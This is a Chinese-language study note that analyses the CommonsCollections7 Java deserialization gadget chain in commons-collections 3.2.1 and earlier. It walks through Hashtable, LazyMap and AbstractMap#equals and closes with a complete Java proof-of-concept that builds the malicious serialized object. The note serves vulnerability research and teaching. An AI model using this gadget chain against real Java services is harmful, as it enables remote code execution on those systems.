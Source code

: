 - [CC7](#cc7)
  - [HashTable#readObject](#hashtablereadobject)
  - [HashTable#reconstitutionPut](#hashtablereconstitutionput)
  - [AbstractMapDecorator#equals](#abstractmapdecoratorequals)
  - [AbstractMap#equals](#abstractmapequals)
  - [POC构造](#poc构造)
# CC7
条件:  
* commons-collections <= 3.2.1

## HashTable#readObject
在`HashTable`类重写的`readObject`中,最后会调用自身的`reconstitutionPut`方法来讲读取的`Key,value`对放入`table`中.
![](2021-12-29-15-06-34.png)
##  HashTable#reconstitutionPut
而在其`reconstitutionPut`方法中,会对传入的Key和table中已有的Key做比较,其中会调用到table中Key的`equals`方法.
![](2021-12-29-15-09-38.png)  
## AbstractMapDecorator#equals
如果`table`中的key为`LazyMap`时,则会触发其父类` AbstractMapDecorator`的`equals`方法,该方法如下  
![](2021-12-29-15-12-11.png)  
其中当传入的Object和自身不相等时就会调用`this.map.euqals()`.
![](2021-12-29-15-13-51.png)
## AbstractMap#equals
当`this.map`为HashMap时就会进入其父类`AbstractMap`的`euqals`方法,方法如下:
![](2021-12-29-15-16-48.png)
其中在迭代中会调用到`m.get()`方法,而m的值即为我们传入的Map对象,当该对象为`LazyMap`时即可通过`LazyMap`的get方法进入`Transform`利用链.
## POC构造
放置两个不同的LazyMap在HashTable中,这样就会在`reconstitutionPut`中触发LazyMap的`equals`方法,最后来到`AbstractMap#equals`进入`LazyMap#get`.  

注意点和之前一样  
1. 先创建空`ChainedTransformer`防止本地触发,后通过反射设置真正的`ChainedTransformer`利用链.
2. Put触发`LazyMap`链时会写入一次元素,导致在反序列化时,在`LazyMap`的`get`方法中不会进入调用`transform`的条件分支,因为已经此时的`Map`中已经有一个相同的元素了,所以需要在`Put`触发`LazyMap`链后将写入的元素用`remove`方法移除. 

完整POC:
```java
    public static void main(String[] args) throws Exception {
        Transformer[] faketrans = new Transformer[]{};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketrans);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
        setFieldValue(chainedTransformer,"iTransformers",transformers);
        lazyMap2.remove("yy");
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashtable);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
```
 调用链如下:
 ![](2021-12-29-15-26-03.png)